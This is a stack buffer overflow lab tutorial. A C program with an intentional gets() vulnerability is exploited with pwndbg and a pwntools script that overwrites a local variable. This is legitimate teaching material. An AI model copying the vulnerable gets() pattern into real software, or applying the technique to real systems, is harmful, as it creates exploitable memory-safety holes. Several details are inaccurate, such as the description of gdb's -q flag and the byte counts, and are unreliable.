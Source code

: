```yaml
---
description: 10/11/2023
cover: https://lparchive.org/ROM-Corruption-Megathread/Images/1-12z1X7C.gif
coverY: 0
---
```


# 🖊 Memory Corruption: Overwriting Local Variables

## Introduction

Did you know that you can overwrite local variables on the stack and change the program's logic?

Here, we'll be going over that!

## Target

`vuln.c`**:**

```c
// A binary exploitation demonstration focusing on overwriting local variables on the stack.

#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    volatile int hackme;
    char buffer[100];

    puts("Can you overwrite the variable on the stack?\n");

    hackme = 0;
    gets(buffer);

    // if(strcmp(buffer, "0xDEADBEEF") == 0)
    if(hackme == 0xDEADBEEF)
    {
        printf("Access Granted, you changed the variable!\n");
        hackme = 0;
    }

    else
    {
        printf("Try harder!\n");
    }

    return 0;
}
```

### The Vulnerability

As you can see, we have a <mark style="color:yellow;">vulnerable</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function</mark> that will write our input into the buffer variable that is allocated for 100-bytes of data.

The reason `gets()` is vulnerable is because <mark style="color:yellow;">it performs zero checks for writing past the data length of 100-bytes</mark>.&#x20;

Ultimately allowing us to overflow the buffer, overwrite memory, and control the flow of execution.

### Compile

```
gcc vuln.c -o vuln -Q -g -fno-stack-protector -z execstack -no-pie
```

## Enumeration

#### `file`:

{% code overflow="wrap" %}
```
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=acd5e5a4a583c059d16b17798e2c5da129f27edb, for GNU/Linux 3.2.0, with debug_info, not stripped
```
{% endcode %}

#### `checksec`:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## Dynamic Analysis w/ `pwndbg`

#### Load binary into `pwndbg`:

```
gdb vuln -q
```

* `-q` will load the symbols into the debugger and grant us access to the source code within the debugging window

#### Place a breakpoint on `main()` and run the binary:

```
b main
r
```

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption><p>Analyzing the binary in <code>pwndbg</code></p></figcaption></figure>

#### Generate a cyclic pattern of 200-bytes (because of our 100-byte buffer):

```
cyclic 200
```

* Copy the entire string

#### Run the program and send the pattern in as input:

```
c

Continuing.
Can you overwrite the variable on the stack?

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Try harder!
Program received signal SIGSEGV, Segmentation fault.
```

The program will seg fault.

<figure><img src="../.gitbook/assets/image (172).png" alt=""><figcaption><p>Seeing value of <code>RBP</code></p></figcaption></figure>

#### Obtain the offset of the overwritten `RBP` value:

```
cyclic -l oaaaaaaa
Finding cyclic pattern of 8 bytes: b'oaaaaaaa' (hex: 0x6f61616161616161)
Found at offset 112
```

<mark style="color:yellow;">Perfect, we now have our padding</mark>.

We want to actually utilize 108-bytes of junk data (`A`'s) here and then make the next 8-bytes `'0xDEADBEEF'` in little endian, `'\xEF\xBE\xAD\xDE'`.

#### Payload Structure:

```
[108-bytes of A's (Junk)] + [8-bytes for overwriting the variable: \xEF\xBE\xAD\xDE]
```

## Exploit Development

```python
from pwn import *

exe = ELF('./vuln')

# Uncomment one or the other for proper process startup -- local or debugger?
def conn():
    if args.LOCAL:  
        r = process([exe.path])                   # Just start the local process
        # r = gdb.debug([exe.path])                   # Open with pwndbg debugger
    else:
        r = remote("127.0.0.1", 9999)

    return r

def main():

    r = conn()

    padding = b'A'*108

    deadbeef = b'\xEF\xBE\xAD\xDE'

    payload = b''.join([
        padding,
        deadbeef
    ])

    print("payload:", payload)
    write("payload", payload)

    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

#### Automated Exploitation

```
python3 exploit.py LOCAL
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Obtaining the winning condition</p></figcaption></figure>

#### Manual Exploitation

#### With our payload being saved to a file named `payload`, we can manually pwn this binary:

```python
./vuln < payload
Can you overwrite the variable on the stack?

Access Granted, you changed the variable!
```
